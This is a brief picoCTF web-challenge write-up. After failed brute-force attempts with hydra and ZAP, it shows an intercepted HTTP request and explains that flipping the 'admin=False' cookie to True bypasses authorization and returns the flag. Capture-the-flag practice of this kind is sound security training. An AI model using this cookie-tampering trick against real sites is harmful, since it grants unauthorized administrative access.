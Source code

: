 Here we need to log in .. is very easy because we can do it even without password. We have two hints one of them says that Joe have a super secret password. 

I was trying to get that password testing brute force attacks with hydra and with  zaproxy. No success.

So ... I just intercepted the success logins with any user.. 

```
GET /flag HTTP/1.1
Host: jupiter.challenges.picoctf.org:15796
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://jupiter.challenges.picoctf.org:15796/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: password=gg; username=asd; admin=False
Connection: close
```

You just need to change the admin false to True and you will be able to get the flag

picoCTF{*+*+*+*+*+*+*+*+*+*+*+*+}
